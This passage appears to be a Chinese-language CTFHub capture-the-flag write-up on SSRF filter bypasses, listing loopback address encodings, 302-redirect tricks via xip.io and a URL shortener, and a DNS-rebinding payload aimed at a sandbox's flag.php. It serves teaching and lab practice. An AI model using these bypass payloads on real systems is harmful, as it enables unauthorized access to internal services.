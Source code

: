 ```
十进制:2130706433    八进制:0177.0.0.1    十六进制:0x7f.0.0.1

```

> 



```
http://localhost/
http://0/
http://[0:0:0:0:0:ffff:127.0.0.1]/
http://①②⑦.⓪.⓪.①

```

#### 302跳转 Bypass

> 
题目描述：SSRF中有个很重要的一点是请求可能会跟随302跳转，尝试利用这个来绕过对IP的检测访问到位于127.0.0.1的flag.php吧


> 
方法一：在网络上存在一个很神奇的服务，网址为`http://xip.io`，当访问这个服务的任意子域名的时候，都会重定向到这个子域名，例如访问 `http://127.0.0.1.xip.io/flag.php`，实际上访问的就是`http://127.0.0.1/flag.php`


```
http://0.xip.io/flag.php
http://localhost.xip.io/flag.php
http://①②⑦.⓪.⓪.①.xip.io/flag.php

```

> 
方法二：利用短地址跳转绕过，[https://4m.cn/](https://4m.cn/)<br/> 直接使用生成的短连接`https://4m.cn/FjOdQ`就会自动302跳转到`http://127.0.0.1/flag.php`上，这样就可以绕过WAF了


#### DNS重绑定 Bypass

> 
题目描述：关键词：DNS重绑定。剩下的自己来吧，也许附件中的链接能有些帮助


> 
对于常见的IP限制，后端服务器可能通过下图的流程进行IP过滤


> 



> 



> 



> 



> 
Payload


```
http://challenge-f273b5d6478c655e.sandbox.ctfhub.com:10800/?url=7f000001.2f653948.rbndr.us/flag.php

```
